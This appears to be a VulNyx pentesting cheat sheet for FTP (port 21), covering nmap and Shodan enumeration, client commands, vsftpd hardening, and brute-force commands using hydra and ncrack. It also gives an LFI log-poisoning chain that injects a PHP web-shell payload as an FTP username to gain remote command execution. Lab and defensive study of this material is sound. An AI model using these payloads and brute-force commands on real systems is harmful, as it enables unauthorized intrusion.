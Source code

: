 ```yaml
---
title: 🟢 21 FTP (TCP)
date: 0021-01-01
layout: post
---
```


### Basic Infomation

**File Transfer Protocol (FTP)** is a standard network protocol used to transfer files from one host to another over a TCP-based network, such as the internet.  
**Default Port: `21`**  
```ruby
PORT   STATE SERVICE
21/tcp open  ftp
```
 
When [Nmap](https://nmap.org) does not get the service header, it uses the [IANA](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml) db to determine the name of the service associated with that port.

---

### Enumeration

#### Active

```ruby
nc -vn 192.168.1.2 21
timeout 0.1 bash -c "nc -nv 192.168.1.2 21"
nmap -p21 -sS 192.168.1.2
nmap -p21 -sVC -p21 192.168.1.2
nmap -p21 --script="ftp-anon" 192.168.1.2
nmap -p21 --script="ftp-*" 192.168.1.2
```

#### Pasive

##### [Shodan](https://shodan.io)

```ruby
port:21
port:21 vsftpd
port:21 proftpd 1.3.5
port:21 os:"Linux"
port:21 os:"Windows"
port:21 country:"US"
port:21 country:"US" os:"Linux"
port:21 hostname:"ftp.domain.tld"
```

---

### Usage & Commands

```ruby
# upload file
put cmd.php
# upload all files
mput *
# download
get config.php
# download all files
prompt off
mget *
# binary mode enable
binary
# exit
bye
# rename file
ftp> rename cmd.php
(to-name) cmd.php5
# read files from ftp
ftp> less .htaccess
ftp> more .htaccess
```

#### Connect

```ruby
# default port (21)
ftp peter@192.168.1.2
ftp anonymous@192.168.1.2
ncftp -u peter -p 'Passw0rd' 192.168.1.2
lftp -u anonymous, 192.168.1.2
lftp -u peter,'Passw0rd' 192.168.1.2

# ftps (error: Fatal error: Certificate verification: Not trusted)
lftp :~> set ssl:verify-certificate false

# other port
lftp -u peter,'Passw0rd' 192.168.1.2 -p 1234
ncftp -u peter -p 'Passw0rd' -P 1234 192.168.1.2
```

---

### Remote Code Execution (RCE)

#### Log Poisoning

If it detects a **Local File Inclusion (LFI)** and manages to read the `/etc/passwd` file.  

> ##### WARNING
> You should also verify that **port 21 (FTP)** is in the **open** state.
{: .block-warning }

```ruby
file.php?file=/etc/passwd
```

If we can read the **FTP log file** located at `/var/log/vsftpd.log`.

```ruby
file.php?file=/var/log/vsftpd.log
```

An attacker can poison that log file by **injecting PHP code** into a fake login.

```ruby
lftp -u '<?php system($_GET["cmd"]); ?>', 192.168.1.2
```

We now have **Remote Command Execution (RCE)** on the destination server.

```ruby
file.php?file=/var/log/vsftpd.log&cmd=id
```

---

### Brute Force

#### Password

If you got a `username` and need the `password` this is the way.

```ruby
# default port (21)
ncrack --user peter -P rockyou.txt ftp://192.168.1.2 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2 -f -I     # ftp
hydra -t 64 -l peter -P rockyou.txt ftps://192.168.1.2 -f -I    # ftps
# other port
ncrack --user peter -P rockyou.txt ftp://192.168.1.2:1234 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2:1234 -f -I
```

#### Username

If you have a `password` and need the `username` this is the way.

```ruby
# default port (21)
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2 -f
hydra -t 64 -L /opt/techyou.txt -p Passw0rd ftp://192.168.1.2 -f -I
# other port
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2:1234 -f
hydra -t 64 -L users.dic -p Passw0rd ftp://192.168.1.2:1234 -f -I
```

---

### Hardening & Configuration

#### Interesting Files

- `/srv/ftp` - Default **path**.
- `/var/log/vsftpd.log` - This file is for **logs**.
- `/etc/vsftpd.conf` - This file is for **configuration**.

#### Install

```ruby
# client
apt install -y ftp
apt install -y lftp
# server
apt install -y vsftpd
```

#### Change Port

```ruby
# default port
listen_port=21
# other port
listen_port=1234
```

#### User (Guest)

```ruby
# enable
anonymous_enable=YES
# disable
anonymous_enable=NO
```

#### Banner Grabbing (Disable)

```ruby
# show version
#ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd 3.0.3
# hidden version
ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd
```

#### Daemon (Listener)

```ruby
# external (0.0.0.0)
listen_address=0.0.0.0
listen_port=21
listen=YES
# internal (localhost)
listen_address=127.0.0.1
listen_port=21
listen=YES
```

#### Service

```ruby
service vsftpd start
service vsftpd stop
service vsftpd restart
service vsftpd status

/etc/init.d/vsftpd start
/etc/init.d/vsftpd stop
/etc/init.d/vsftpd restart
/etc/init.d/vsftpd status

systemctl start vsftpd
systemctl stop vsftpd
systemctl restart vsftpd
systemctl status vsftpd
```

---

### Disclaimer

> ##### WARNING
> All tools in this repository are intended for educational, ethical purposes only. The VulNyx team is not responsible for any misuse or damage caused by the improper use of these tools to third-party systems or infrastructures.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
